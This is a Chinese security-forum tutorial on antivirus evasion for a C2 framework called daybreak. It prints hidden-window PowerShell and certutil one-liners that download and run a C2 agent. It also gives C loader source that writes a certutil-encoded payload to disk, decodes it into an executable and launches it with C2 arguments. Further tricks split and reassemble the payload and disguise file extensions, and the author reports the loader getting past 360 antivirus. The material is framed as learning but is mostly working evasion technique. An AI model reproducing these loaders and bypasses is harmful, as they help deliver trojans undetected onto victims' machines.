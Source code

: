 

# 免杀学习 - 从指令绕过开始 (1) - 先知社区

免杀学习 - 从指令绕过开始 (1)



# 免杀学习 - 从指令绕过开始 -1

# 破晓

免杀新伙伴-daybreak，这个工具是类似 CS 的工具

下面的图片是它的控制界面，利用了 Web 界面更加简介美观且自带中文

[![](assets/1701612229-31b1d05ed0bf6fa5c832f4a43e90caef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163540-e493cada-32a1-1.png)

分析一下它自带的上线语句

[![](assets/1701612229-013d341e6fd225682131cb76cc9b583f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163615-f9f37146-32a1-1.png)

支持多种操作系统的上线，相比 CS 需要按照插件才能上线 linux 更加集成

支持利用 powershell 和 certutil 指令进行上线操作

```bash
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:1338/d/pzxsnoqd','pzxsnoqd.exe') && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe

certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

需要注意的是破晓的上线操作需要利用探针的参数才行，比如这里的 e75tdmwe

# 初步测试

我们将自带的命令进行编译生成 exe 文件直接尝试上线

[![](assets/1701612229-3d56aa4a7ab0fed009b0f0ae6dd53cb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163630-02d3e1a6-32a2-1.png)

### 在 360 环境下测试

[![](assets/1701612229-4ef77cb20b6a74b474457405d1b6711b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163651-0f4b3bbe-32a2-1.png)

静态免杀没问题，尝试上线

[![](assets/1701612229-26ecc135b398de1b5146d4b96ff1eb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163707-18822634-32a2-1.png)

上线失败被阻止

### 在火绒环境下运行

静态云查杀依旧没有问题

[![](assets/1701612229-52184da398b2994e694eebcdaa2426c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163728-254cd2c4-32a2-1.png)

尝试上线

[![](assets/1701612229-9f440f595cb777c98de5a353c8893557.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163748-3111d2f8-32a2-1.png)

果然还是被阻止了

### 进行文件分析

效果显示很不错

```bash
https://www.virustotal.com/gui/
```

[![](assets/1701612229-2a324d73c44e09938af8288fe889af08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163804-3ae019d4-32a2-1.png)

这个就更离谱了

```bash
https://www.virscan.org/language/zh-cn/
```

[![](assets/1701612229-acf71c05a5764dd842ad751707f5b8c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163816-41c948c4-32a2-1.png)

# 进阶

通过利用 certutil 自带的加解密功能进行木马的免杀

加密代码

```bash
Certutil -encode C+Powershell.exe out.txt
```

C 语言源码

```bash
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    #将解密的内容写入一个文件中
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"
        #C2文件加密的内容
        "-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    #进行解密
    system("Certutil -decode encryption.txt test.exe");
    #确保上述代码运行完成
    Sleep(5000);
    system("test.exe C2执行参数");
    return 0;
}
```

再次编译生成 exe 文件，点击运行，首先产生一个解码文件，然后再次产生可执行文件，最终达到上线，下图时

[![](assets/1701612229-e5865ef3cbf682b7bb6016c6b96e117e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163850-56423ffe-32a2-1.png)

### 火绒环境下

发现成功产生了解密文件和木马文件，但木马文件运行时仍出现告警

### 360 环境下

我没想到火绒杀了，联网的 360 居然没杀，成功上线

[![](assets/1701612229-421070a4fff076fbd08e9919932bcf08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163909-619acbd2-32a2-1.png)

进行 360 木马查杀中的快速查杀，居然还没杀掉

[![](assets/1701612229-4584f93c24c61e239d3b68ec4aa6db71.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163940-7409e3ac-32a2-1.png)

# 技巧一（缝合）

当我们利用 certutil 进行的时候，会发现我们加密后的数据过于冗长可能会在上传过程中遇到很多问题，那么我们可以利用文件切割，再利用我们的 COPY 指令进行缝合

```bash
copy 1.txt+2.txt+...+n.txt  out.txt
```

最后利用

```bash
certutil -decode out.txt   C2 可执行文件名.exe
```

我们通过以下命令进行加密，产生 txt 文件

```bash
Certutil -encode C+Powershell.exe out.txt
```

利用文本切割器，按照每 500 行一份进行切割

```bash
文本切割器网站
https://uutool.cn/txt-incise/
```

[![](assets/1701612229-84971a7a654afc9763f9d138746d52a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163956-7d776554-32a2-1.png)

我们将文本缝合后利用 certutil 进行解密

```bash
certutil -decode out.txt test.exe
```

[![](assets/1701612229-bfde7c502b03475ea25679a94fcbf14e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164013-87690b4e-32a2-1.png)

运行木马程序

火绒报错

360 在文本进行编译成 exe 后直接报警

[![](assets/1701612229-c21f140e5704ef9b83a7e7b7d7c9475f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164028-90499198-32a2-1.png)

### 技巧二（冷知识）

windows 命令行，中执行命令对文件判断时，不是判断文件后缀而是判断文件头，因此如果我们是 exe 文件，我们修改后缀为 jpg 等依旧可以额执行命令

测试代码如下

```bash
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"

"-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    return 0;
}
```

进行命令执行

[![](assets/1701612229-803f238cfdf699d0395eac5aa275fb44.png)](http://xz.aliyun.com/t/%E8%BF%9B%E9%98%B6%E5%85%8D%E6%9D%801-0/image-20230327172739414.png)

命令执行结果

[![](assets/1701612229-ac3339e8ffd5f9aa633ffb373317545b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164112-aac13260-32a2-1.png)

但当我们想直接在 C 中将解密后的文件修改后缀再启动时，会遇到以下错误，解密文件会产生成功但无法执行

[![](assets/1701612229-deef84a5b362b027bab46227bf5030b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164130-b529af0c-32a2-1.png)

